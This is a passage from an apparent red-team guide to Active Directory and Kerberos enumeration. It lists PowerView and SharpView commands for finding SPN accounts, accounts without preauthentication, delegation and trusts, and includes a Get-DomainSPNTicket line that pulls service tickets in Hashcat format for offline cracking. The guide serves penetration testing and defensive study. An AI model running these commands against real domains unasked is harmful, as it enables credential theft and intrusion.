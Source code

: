 ```powershell
Get-DomainUser -Properties msDS-SupportedEncryptionTypes | Select samaccountname,msDS-SupportedEncryptionTypes

# Trusts
Get-DomainTrust
Get-ForestTrust

# Ticket sampling (PowerView-assisted, offload to Rubeus for requests)
Get-DomainSPNTicket -SPN MSSQL/* -OutputFormat Hashcat -Verbose
Get-DomainSPNTicket -UserName svc_sql

# SharpView equivalents examples
# (Run as separate binary when PowerShell is constrained)
```

```cmd
SharpView.exe Get-DomainUser -SPN
SharpView.exe Get-DomainUser -PreauthNotRequired
SharpView.exe Get-DomainComputer -TrustedForDelegation
SharpView.exe Get-DomainTrust
```

### Command Notes
- Use `-LDAPFilter` and `-Properties` to minimize payload and tailor scope
- Prefer small `Select -First N` samplings in production; export full only in lab
```

## 🔍 BASIC ENUMERATION TECHNIQUES

### **1. Kerberos Infrastructure Discovery**

#### **PowerView - Basic Kerberos Enumeration**
```powershell
# Basic Kerberos infrastructure enumeration
Write-Host "=== KERBEROS INFRASTRUCTURE ENUMERATION ===" -ForegroundColor Green

# Get domain information
$domain = Get-Domain
Write-Host "Domain: $($domain.Name)" -ForegroundColor Cyan
Write-Host "Forest: $($domain.Forest)" -ForegroundColor Cyan
Write-Host "Functional Level: $($domain.DomainMode)" -ForegroundColor Cyan

# Get domain controllers
$dcs = Get-DomainController
Write-Host "`nDomain Controllers:" -ForegroundColor Yellow
foreach ($dc in $dcs) {
    Write-Host "  - $($dc.Name) ($($dc.OperatingSystem))" -ForegroundColor White
}

# Get Kerberos policies
$kerberosPolicy = Get-DomainPolicy -Policy "KerberosPolicy"
Write-Host "`nKerberos Policies:" -ForegroundColor Yellow
Write-Host "  MaxTicketAge: $($kerberosPolicy.MaxTicketAge) hours" -ForegroundColor White
Write-Host "  MaxRenewAge: $($kerberosPolicy.MaxRenewAge) hours" -ForegroundColor White
Write-Host "  MaxServiceAge: $($kerberosPolicy.MaxServiceAge) minutes" -ForegroundColor White
```

